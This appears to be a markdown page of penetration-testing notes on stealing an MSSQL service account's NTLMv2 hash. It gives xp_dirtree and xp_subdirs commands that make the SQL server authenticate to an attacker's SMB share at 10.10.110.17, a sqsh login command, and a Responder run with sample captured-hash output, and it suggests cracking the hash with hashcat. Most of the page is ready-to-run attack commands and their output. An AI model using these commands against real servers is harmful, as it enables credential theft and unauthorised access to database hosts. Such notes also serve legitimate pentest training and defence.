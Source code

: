 ## Capture MSSQL Service Hash
* We can steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented storedprocedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system
* When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server

#### XP_DIRTREE Hash Stealing

```powershell
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

subdirectory    depth
--------------- -----------
```

#### XP_SUBDIRS Hash Stealing

```powershell
1> EXEC master..xp_subdirs '\\<local_ip>\doesnotexist\'
2> GO

HResult 0x55F6, Level 16, State 1
xp_subdirs could not access '\\10.10.110.17\share\*.*': FindFirstFile() returned error 5, 'Access is denied.'
```

```powershell
1> xp_dirtree "\\<local_ip>\doesnotexist"
```

```sh
sqsh -S <ip> -U WIN-02\\mssqlsvc -P 'pass' -h
```

* If the service account has access to our server, we will obtain its hash, which we could crack with hashcat

#### XP_SUBDIRS Hash Stealing with Responder

```sh
sudo responder -I tun0

                                         __               
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|              
<SNIP>

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : SRVMSSQL\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:5e3ab1c4380b94a1:A18830632D52768440B7E2425C4A7107:0101000000000000009BFFB9DE3DD801<SNIP>
```
